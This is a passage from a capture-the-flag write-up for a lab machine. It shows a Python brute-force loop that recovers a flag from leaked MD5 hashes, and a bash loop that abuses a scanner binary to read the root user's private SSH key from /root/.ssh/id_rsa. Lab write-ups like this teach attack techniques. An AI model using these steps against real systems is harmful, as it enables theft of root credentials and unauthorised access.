 ```python
for h in hashes:
    for c in allchars:
        test_flag = flag + c
        test_hash = md5hash(test_flag)
        if test_hash == h:
            print("Flag is:", test_flag)
            flag += c
            break
```

<figure><img src="../../.gitbook/assets/image (33) (8).png" alt=""><figcaption></figcaption></figure>

This would eventually get the correct hash out for us to submit.

### Key Brute Force --> Root Shell

I felt a bit weird just capturing the root flag, so let's modify our script a bit more to get the private SSH key of the `root` user.&#x20;

{% code overflow="wrap" %}
```bash
greg@intentions:/opt/scanner$ for i in {1..3000}; do ./scanner -p -s 2 -c /root/.ssh/id_rsa -l $i >> /tmp/sshkey.txt; done 
## random guess of 3000 characters
```
{% endcode %}

The 3000 limit would trigger a lot of errors since it attempts to read more characters than actually present, so we can just Ctrl + C it when that happens. It still generates the file containing all debug hashes properly.&#x20;

We can then transfer this to our machine via hosting the `output.txt` file on a Python HTTP server on the machine, and doing some `awk` magic on it to get it into Python list format:
